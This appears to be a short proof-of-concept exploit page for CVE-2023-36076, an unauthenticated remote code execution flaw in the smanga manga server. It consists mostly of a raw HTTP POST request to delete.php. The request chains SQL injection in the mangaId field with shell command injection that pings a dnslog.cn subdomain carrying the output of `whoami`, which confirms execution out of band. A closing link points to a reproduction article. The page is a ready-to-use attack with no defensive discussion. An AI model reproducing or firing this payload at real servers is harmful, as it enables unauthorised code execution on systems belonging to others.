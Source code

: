 ##  smanga存在未授权远程代码执行漏洞 CVE-2023-36076

```
POST /php/manga/delete.php HTTP/1.1
Host: 127.0.0.1:8181
Content-Length: 360
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:8181
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (iPad; CPU OS 13_3 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) CriOS/87.0.4280.77 Mobile/15E148 Safari/604.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://127.0.0.1:8181/php/manga/delete.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

mangaId=1+union+select+*+from+%28select+1%29a+join+%28select+2%29b+join+%28select+3%29c+join+%28select+4%29d+join+%28select+%27%5C%22%3Bping+-c+3+%60whoami%60.uoi9vt.dnslog.cn%3B%5C%22%27%29e+join+%28select+6%29f+join+%28select+7%29g+join+%28select+8%29h+join+%28select+9%29i+join+%28select+10%29j+join+%28select+11%29k+join+%28select+12%29l%3B&deleteFile=true
```

## 漏洞复现
https://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247499614&idx=1&sn=96043db01ebaf64197a14fbb095a89cd&chksm=ea340004dd438912d010a45c78284e9b877fa00a08ad3834f38c0f7e5bf97ba577ca72f01321&scene=0&xtrack=1#rd
